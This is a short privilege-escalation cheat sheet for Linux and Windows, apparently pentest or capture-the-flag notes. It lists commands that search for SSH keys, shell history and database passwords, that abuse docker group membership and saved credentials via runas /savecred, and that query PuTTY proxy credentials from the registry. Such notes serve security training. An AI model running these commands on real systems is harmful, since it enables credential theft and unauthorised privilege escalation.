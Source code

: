 # 3 privilege escalation

## Linux

### Manual enumeration

- Check for sensitive files in home directories.

```
find /home/ -name .bash_history 2> /dev/null
find /home/ -name .ssh 2> /dev/null
```

- Check for sensitive files in web server directory.

```
find /var/www/ -name "*config*.php"
find /var/www/ -name "initialize.php"
find /var/www/ -name "*.db"
which mysql
```

- Check for credentials in web server directory.

```shell
grep -r "DB_PASS" /var/www/
```

- Check for sensitive files in other directories.

```
/home
~
/
```

- Check group memberships using `id`.
    - lxd => [https://github.com/lxc/distrobuilder](https://github.com/lxc/distrobuilder)
    - docker => `docker run -v /root:/mnt -it ubuntu`
    - disk => can read file system using `debugfs`
    - adm => can read logs in `/var/log`

- Check for files owned by a specific user

```shell
find / -user username 2> /dev/null
```

- Check the environment variables of the shell.

### Sudo & SUID

- Check for sudo permissions.

```shell
sudo -l
```

- Check for files that have SUID bits set.

```shell
find / -perm -u=s -type f -ls 2>/dev/null
```

### Cronjobs

```
crontab -l
cat /etc/crontab
```

### Capabilities

- Check for Linux capabilities

```shell
getcap -r / 2> /dev/null
```

### Networking

- Check socket statistics for processes exposed on the machine.

```
ss -s -l -n -t -u
```

### Kernel exploits

- Determine kernel version using `uname -a`.
- Search exploit databases for match.
- Run exploit.

### Automated tools

- LinPeas [GitHub](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Windows

### Powershell history

The powershell history can be found at

```
$ENV:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### IIS configuration

IIS (Internet Information Services) is a web server software created by Microsoft for use with the Windows NT family.
The configuration of websites on IIS is stored in a file named `web.config` and can store credentials.
The file can be found at one of these locations

```
C:\inetpub\wwwroot\web.config
```
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

### Saved windows credentials

Windows allows you to use other user's credentials. The command below will list the saved user credentials on the system.

```
cmdkey /list
```
You can try to use these by running

```
runas /savecred /user:username cmd.exe
```

### Putty credentials

You can retrieve the stored proxy credentials by running

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

